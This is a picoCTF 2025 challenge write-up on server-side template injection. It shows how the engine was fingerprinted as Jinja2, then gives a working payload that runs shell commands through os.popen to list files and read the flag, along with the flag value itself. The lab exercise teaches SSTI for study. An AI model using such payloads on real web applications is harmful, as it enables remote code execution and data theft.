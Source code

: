# Description:
I made a cool website where you can announce whatever you want! 
Try it out!
I heard templating is a cool and modular way to build web apps! 
Check out my website here!
### Hints:
1. Server Side Template Injection

# Solution
Browse to the web site and you will see a web page that includes the text

### Verify SSTI
The hint has already given away that the site uses [server-side templates](https://portswigger.net/web-security/server-side-template-injection) but we need to verify that and find out the backend technology used.

To our help we use the following decision tree from [PortSwiggers page on Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)

SSTI Decision Tree


![Alt Text](https://github.com/Cajac/picoCTF-Writeups/blob/main/picoCTF_2025/Web_Exploitation/Images/SSTI_Decision_Tree.png)


The tests done are as follows:

Entering ${7*7} yields ${7*7},  
Entering {{7*7}} yields 49 and  
{{7*'7'}} yields 7777777  

So now we know we have a Jinja2 backend.

Googling around for SSTI Jinja2-payloads I found this one:` {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

Look for the flag
Using the payload` {{request.application.__globals__.__builtins__.__import__('os').popen('ls -l').read()}} `
              
drwxr-xr-x 2 root root   32 Apr 12 10:09 __pycache__  
-rwxr-xr-x 1 root root 1241 Mar  6 03:27 app.py  
-rw-r--r-- 1 root root   58 Mar  6 19:44 flag  
-rwxr-xr-x 1 root root  268 Mar  6 03:27 requirements.txt  
</h1>
So now we have the name and location of the flag

Get the flag
We get the flag with the payload` {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}  `


picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}  
## 🧠 Learning Outcomes:
Understanding SSTI and how it leads to remote code execution when user input is rendered unsafely.

How to identify template engines through different syntax tests.

Basic command execution via Python’s os.popen() through template injection.

Importance of input sanitization in templating systems.
